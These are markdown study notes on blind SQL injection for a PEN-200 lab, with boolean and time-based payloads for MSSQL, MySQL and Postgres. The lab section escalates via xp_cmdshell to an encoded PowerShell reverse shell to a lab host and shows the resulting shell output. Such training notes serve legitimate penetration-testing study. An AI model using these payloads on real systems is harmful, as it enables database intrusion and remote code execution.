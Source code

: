 # SQLi Blind
- Used when SQL query response is not VISIBLE.
- Tehnically, this response is NOT returned in-band, as we can't see the result of our query
- Can be Time-based, or Boolean
- Generic boolean-based blind SQL injections cause the application to return different and predictable values whenever the database query returns a TRUE or FALSE result.
- Time-based blind SQL injections infer the query results by instructing the database to wait for a specified amount of time. Based on the response time, the attacker can conclude if the statement is TRUE or FALSE.

```shell
# BOOLEAN test
http://192.168.50.16/blindsqli.php?user=offsec' AND 1=1 -- //

' # Time-Based, if it hangs, it's TRUE, automate with SQLMAP
http://192.168.50.16/blindsqli.php?user=offsec' AND IF (1=1, sleep(3),'false') -- //
``````


### PEN-200 10.3.2 Q7

```
### PEN-200 10.3.2 Q7
- MSSQL server, with web for vulnerabel to SQLi, 
- found login form on website at /login.aspx
- Lab hint suggest to test for  DB type with time based delay.   Time based delay commands are 
```sql
# MSSQL
'; WAITFOR DELAY '0:0:5' --+-  

# MySQL
 ' AND (SELECT 5 FROM (SELECT(SLEEP(5)))a) AND '1'='1
 
 # Postgress
 ' AND 5=PG_SLEEP(5) AND '1'='1


# Blind SQLi

# listen on Kali
sudo tcpdump -i tun0 icmp   

#  send ping 
'; EXEC xp_cmdshell 'ping -n 1 192.168.45.241' --+-

# sent reverse encoded powershell shell
 ; EXEC xp_cmdshell 'powershell -e JABjAGwpaa==' --+-
 
#  Got  RevShell  online
whoami 
nt service\mssql$sqlexpress


```